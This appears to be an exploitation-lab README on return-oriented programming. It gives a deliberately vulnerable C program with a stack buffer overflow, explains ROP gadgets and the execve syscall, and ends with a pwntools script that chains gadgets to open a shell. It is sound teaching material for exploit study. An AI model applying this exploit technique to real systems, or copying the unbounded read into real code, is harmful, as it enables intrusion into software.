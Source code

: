 # ROP Static

## Source Code

```C
// gcc -m32 -fno-stack-protector -no-pie -static -o vuln vuln.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

char *str = "/bin/sh";          // <- RODATA

#define BUFFSIZE 136

void vuln()
{
    char buffer[BUFFSIZE];
    read(0, buffer, 0x200);     // <- this code causes buffer overflow
}

int main()
{
    vuln();
}
```

## Overview & Main Idea

- Let's check some informations about binary file

![img](/ROP/Static/assets/check_file.png)

> NX is enabled so we can't ret2shellcode, but this program has statically linked and no PIE, we can use ROPgadget to find some gadgets in binary file and use it to implement something like exceve("/bin/sh", 0, 0) to get shell :3

## Details

### A bit about ROP

- Return Oriented Programming is a technique in which we use existing small snippets of assembly code/gadgets to create a chain of instructions which will eventually spawn a shell or cause the program to do some complex things. This is method is usually employed when there is a Stack buffer overflow and there are no win or give_shell functions. So we use ROP to invoke system or an execve syscall.

- Its called ROP as the basic idea of the technique is to use the ret statement to change control flow of the program. We use a tool called ROPgadget for finding gadgets. Another tool used for the same is ropper

- You can see this image to understand how does ROP work

![img](/ROP/Static/assets/ROP.png)

- To implement exceve("/bin/sh", 0, 0), we look up the syscall table of x86_32 bit 

![img](/ROP/Static/assets/exceve_syscall.png)

```
exceve("/bin/sh", 0, 0) in assembly

eax     -     0x0b
ebx     -     char* "/bin/sh"
ecx     -     0x0
edx     -     0x0

int     0x80
```

- First we find the offset that we need to overwrite. By some simple steps, I find it's 148 bytes :3.

- Next, I found some gadgets below with ROPgadget.

![img](/ROP/Static/assets/gadget.png)

- Finally, we need to find "/bin/sh" string, "/bin/sh" stored in RODATA because of its initialization `char *str = "/bin/sh"`

![img](/ROP/Static/assets/bin_sh.png)

## Exploit

```python
# 0x0806003e : pop edx ; pop ebx ; pop esi ; ret
# 0x080a8b2a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
# 0x0805d393 : pop ecx ; ret
# 0x80b3008    "/bin/sh"
# 0x0804b5c2   int 0x80
# offset 148

from pwn import *

elf = ELF("./vuln")
p = elf.process()

payload = b"a"*148
payload += p32(0x0806003e)
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x2)
payload += p32(0x080a8b2a)
payload += p32(0x0b)
payload += p32(0x80b3008)
payload += p32(0x0)
payload += p32(0x0)
payload += p32(0x0805d393)
payload += p32(0x0)
payload += p32(0x0804b5c2)

p.sendline(payload)
p.interactive()
```

## Result

![img](/ROP/Static/assets/result.png)